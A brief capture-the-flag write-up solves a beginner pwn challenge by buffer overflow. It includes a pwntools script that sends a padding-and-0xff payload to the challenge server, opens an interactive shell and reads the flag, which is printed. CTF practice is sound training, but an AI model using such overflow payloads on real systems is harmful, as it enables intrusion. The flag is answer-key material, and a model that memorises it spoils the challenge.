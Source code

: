 #### Description

rob keeps making me write beginner pwn! i'll show him...

#### Solution

This challenge is very simple. It is a buffer overflow.  
This was the source code:  
![Alt text](./img/beginner-generic-pwn-number-0.png?raw=true "Title")  
If we are able to overwrite the "inspirational_message_index" variable with 0xFFFFFFFF we win.  
Also the script is self-explanatory:

```
from pwn import *

r = remote ('mc.ax', 31199)

shellcode = b"\x41"*40 + b"\xff"*8
r.sendline(shellcode)
r.interactive()
```

thanks to a cat flag.txt we find the flag.
**\*flag{im-feeling-a-lot-better-but-rob-still-doesnt-pay-me}**

### pwn/ret2generic-flag-reader ![c](https://img.shields.io/badge/105_points-green)
